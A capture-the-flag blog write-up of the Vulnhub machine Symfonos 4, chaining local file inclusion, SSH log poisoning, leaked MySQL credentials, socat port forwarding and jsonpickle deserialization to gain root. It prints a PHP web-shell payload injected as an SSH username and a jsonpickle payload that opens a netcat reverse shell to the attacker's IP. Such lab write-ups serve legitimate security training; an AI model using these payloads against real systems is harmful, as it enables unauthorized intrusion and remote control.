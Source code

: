 ```yaml
---
layout: PostSimple
date: 2020-03-12
title:     "Vulnhub - Symfonos 4"
tags: ['medium','port_forward','log-poisoning','mysql']
---
```


Today, We are going to pwn Symfonos 4 by Zayotic from Vulnhub

## Description:

```
OSCP-like Intermediate real life based machine designed to teach people the importance of trying harder.
```
Download Link : [https://www.vulnhub.com/entry/symfonos-4,347/](https://www.vulnhub.com/entry/symfonos-4,347/)

Lets Begin with our Initial Scan

## Nmap Scan Results:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 f9:c1:73:95:a4:17:df:f6:ed:5c:8e:8a:c8:05:f9:8f (RSA)
|   256 be:c1:fd:f1:33:64:39:9a:68:35:64:f9:bd:27:ec:01 (ECDSA)
|_  256 66:f7:6a:e8:ed:d5:1d:2d:36:32:64:39:38:4f:9c:8a (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:8C:D3:8B (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kerne
```

## HTTP:

Normal webpage with an image like always.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/1.png)

Since there is no other interesting Ports Open, I started Gobuster on the webpage.

Gobuster Results:
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.1.136
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html
[+] Timeout:        10s
===============================================================
2020/03/12 19:39:13 Starting gobuster
===============================================================
/index.html (Status: 200)
/css (Status: 301)
/manual (Status: 301)
/js (Status: 301)
/javascript (Status: 301)
/sea.php (Status: 302)
/atlantis.php (Status: 200)
/server-status (Status: 403)
/gods (Status: 301)
===============================================================
2020/03/12 19:41:23 Finished
===============================================================
```

``/gods``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/2.png)

Downloaded all log files to my machine.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/3.png)

``hades.log``

>Hades was the god of the underworld and the name eventually came to also describe the home of the dead as well. He was the oldest male child of Cronus and Rhea. Hades and his brothers Zeus and Poseidon defeated their father and the Titans to end their reign, claiming rulership over the cosmos.

``poseidon.log``

>Poseidon was the god of the sea, earthquakes and horses. Although he was officially one of the supreme gods of Mount Olympus, he spent most of his time in his watery domain. Poseidon was brother to Zeus and Hades. These three gods divided up creation.

``zeus.log``

>Zeus is the god of the sky, lightning and thunder in Ancient Greek religion and myth, and king of the gods on Mount Olympus. Zeus is the sixth child of Kronos and Rhea, king and queen of the Titans.

``/atlantis.php``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/4.png)

``/sea.php``

Whenever I open ``/sea.php`` it redirects to ``/atlantis.php``. Lets capture the request in burp.

``302 Found`` which is redirection, We can stop a redirection using burp.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/5.png)

All we need to do is change ``302 Found`` to ``200 Ok`` For that open ``Proxy -> Options -> Match and Replace``.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/6.png)

Now If I visit ``/sea.php`` it displays a new page.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/7.png)

So If I select a GOD the url changes to ``/sea.php?file=hades`` maybe Local File Inclusion.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/8.png)

But I can't view ``/etc/passwd`` so I searched for any log files and I got ``/var/log/auth`` We dont need to represent ``.log`` because we already saw those ``poseidon.log, zeus.log and hades.log`` in ``/gods`` with extension but in ``/sea.php`` it shows the same file even without the extensions.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/9.png)

When seeing those Log files it shows ``OpenSSH`` so we can do ``SSH Log Poisoning``

Reference :
>https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/

```ssh '[?php system($_GET['c']); ?](?php system($_GET['c']); ?)'@192.168.1.136```

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/10.png)

Now its injected, Time to get reverse shell.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/11.png)

When checking ``/var/www/html/atlantis.php`` found ``mysql`` credentials.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/12.png)

``root : yVzyRGw3cG2Uyt2r``

I logged with those and got admin hash.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/13.png)

MySql Commands 
> http://g2pc1.bu.edu/~qzpeng/manual/MySQL%20Commands.htm

I tried cracking the hash but I can't. So I skipped that and started looking for other things.

I started looking around in the directories and found ``/opt/code`` I found a python code. I came to know its ``jsonpickle`` so it may be running on the background.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/55.png)

Uploaded My Enumeration Script and Found this 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/14.png)

> - Port 3306 - MySQL
> - Port 8080 - Webpage (Maybe)

We can’t see port ``8080`` directly so We need to do [Port Forward](https://en.wikipedia.org/wiki/Port_forwarding) by doing this we can access the webpage from our machine.

I used ``socat`` method for port forwarding. We can also use ``SSH`` interactive shell for port forwarding too.
>https://www.cyberciti.biz/faq/linux-unix-tcp-port-forwarding/

>socat TCP-LISTEN:8081,fork TCP:127.0.0.1:8080

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/15.png)

Now I can visit ``http://192.168.1.136:8081``, It displays this page 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/16.png)

When I click the Main page it directs to 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/17.png)

But ``192.168.1.136:8081/whoami`` is suspecious, So I intercept the request in Burp 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/18.png)

``username`` looks like base64encoded so I decoded that 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/19.png)

So this is the thing we saw in ``/opt/code``

Later I found this [article](https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/)

So I did some changes in the string and encoded this to base64.

> {"py/object": "__main__.Shell", "py/reduce": [{"py/type": "os.system"}, {"py/tuple": ["/usr/bin/nc -e /bin/bash 192.168.1.103 1234"]}, null, null, null]}

Gave that base64 encoded to ``username`` and started my Listener and got shell.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/20.png)

I'm Root!!

!![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos4/21.png)